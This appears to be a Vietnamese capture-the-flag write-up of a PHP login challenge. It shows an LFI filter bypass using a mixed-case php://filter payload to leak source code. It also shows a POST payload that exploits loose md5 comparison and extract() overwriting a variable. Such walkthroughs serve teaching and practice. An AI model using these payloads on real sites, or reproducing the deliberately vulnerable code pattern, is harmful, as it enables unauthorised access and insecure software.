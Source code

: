 Vào thì được Form Login.<br>
Để ý ở dưới có dòng `Flag here ?`, ấn vào thử thì thấy đâu đó bóng dáng thấy Huấn.<br>
Ok, fine.<br>
Tiếp tục nhìn lên url trông có vẻ giống bị LFI, và đúng thật, nhưng bị filter r.<br>
Nghiên cứu 1 lúc thì có Payload: `pHp://FilTer/convert.base64-encode/resource=index`(lấy source file login cũng vậy).<br>
`login.php`
```php
<?php 
		
  	include ("flag.php"); //real flag in $flag

	if ($_SERVER['REQUEST_METHOD'] == "POST") {
		if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
			$password = random_int(10000000, 99999999);
			extract($_POST);
			$user_hash ='0e902564435691274142490923013038' ;
	
			if (md5($user) == $user_hash && $password === $pass){
				echo $flag;
				die();
			}else{
				die("Only admin have flag !!");
			}
		}
	}
?>
```
Để echo $flag thì cần bypass user và pass.<br>
User thì bypass dễ rỗi, chỉ cần sử dụng 1 chuỗi mà sau khi md5 thành 1 chuỗi mới có `0e` ở đầu là được.<br>
Pass thì có vẻ khó hơn, sau 1 hồi hỏi anh Google thì thấy có lỗi ở hàm exreact. Các bạn có thể tham khảo ở đây: https://davidnoren.com/post/php-extract-vulnerability/<br>

Rồi xây dựng payload thôi.<br>
Payload: user=DQWRASX&pass=1234&password=1234 (khi qua hàm extract thì giá trị password thành 1234)<br>
Vậy là được flag:
![image](https://user-images.githubusercontent.com/96786536/151706306-b73b4302-df7e-4894-99ea-56ad4d9743ed.png)
